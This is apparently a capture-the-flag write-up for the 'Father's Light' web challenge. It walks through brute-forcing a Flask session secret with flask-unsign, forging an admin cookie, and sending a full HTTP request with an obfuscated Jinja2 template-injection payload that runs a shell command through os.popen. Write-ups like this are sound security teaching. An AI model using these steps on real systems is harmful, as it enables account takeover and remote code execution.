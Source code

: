 # Father's Light
> Enter the enigmatic realm of "Father of Light" Unleash your skills, explore hidden paths, and uncover the depths of mysterious creations. Will you emerge as the champion? Dare to unravel the enigma.

## About the Challenge
We were given a website (Without source code) and there is a login page in this website

![preview](images/preview.png)

## How to Solve?
If you check the HTTP response header, this website using Python and Werkzeug.

![header](images/header.png)

And now I tried to make the website error to know what is the response. In this case I made the website error by removing `password` parameter when hitting `/login` endpoint

![error](images/error.png)

Hmmm there is an interesting code here especially in the `elif` part. Lets try to login using `admin:password` credential

![user](images/user.png)

Yay, we can login but as an `user`? Let's check the cookie value

![cookie](images/cookie.png)

This website was using flask for Session-based auth. And because of this website using flask, we can bruteforce the secret key and changed the value of the cookie.

```bash
root@root:~$ flask-unsign --unsign --cookie ".eJyrVsosjk9Myc3MU7JKS8wpTtVRKi1OLYrPTFGyUjI0M1KC8PMSc1OBAhCFtQDj5xGP.ZM5ITg.NrGKbBGCkxPIk0iQLQE2Cuc2cGc" --wordlist /home/daffainfo/tools/rockyou.txt  --no-literal-eval
[*] Session decodes to: {'is_admin': False, 'user_id': '162', 'username': 'admin'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 30080 attempts
b'amorlove'
```

We got `amorlove`. And now tried to change the value of `is_admin` from `False` to `True`. Sign the cookie again using `flask-unsign`

```bash
root@root:~$ flask-unsign --sign --cookie "{'is_admin': True, 'user_id': '162', 'username': 'admin'" --secret 'amo
rlove'
.eJxTqlbPLI5PTMnNzFO3UggpKk3VUVAvLU4tis9MAQqoG5oZqUNF8hJzU0FCEMVKABlZEb0.ZM5KNg.PfOTwsnj9w7TxbSPYtQDuLg9lJQ
```

Use the cookie to access `/user` endpoint again and as you can see the the privilege was changed from `user` to `admin`. Now go to `/dashboard` and you will find another form that vulnerable SSTI. In the end the payload was something like this

```
POST /POST HTTP/1.1
Host: 34.18.3.149:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Origin: http://34.18.3.149:5000
Connection: close
Referer: http://34.18.3.149:5000/dashboard
Cookie: session=eyJpc19hZG1pbiI6dHJ1ZSwidXNlcl9pZCI6IjEiLCJ1c2VybmFtZSI6ImRkZGQifQ.ZM2u4A.rbYhmXmWZmjpdzXAIQH6pb5EFfk
Upgrade-Insecure-Requests: 1

name={{lipsum['\x5f\x5fglobals\x5f\x5f']['os']['po''pen']('cat+app.py')['re''ad']()}}&email=test%40mail.com&post_content=test
```

> There is no screenshot for this part because the website was down

```
ASCWG{H0la_H@Ck3r5_Th1s_a_S3m6le_55TI}
```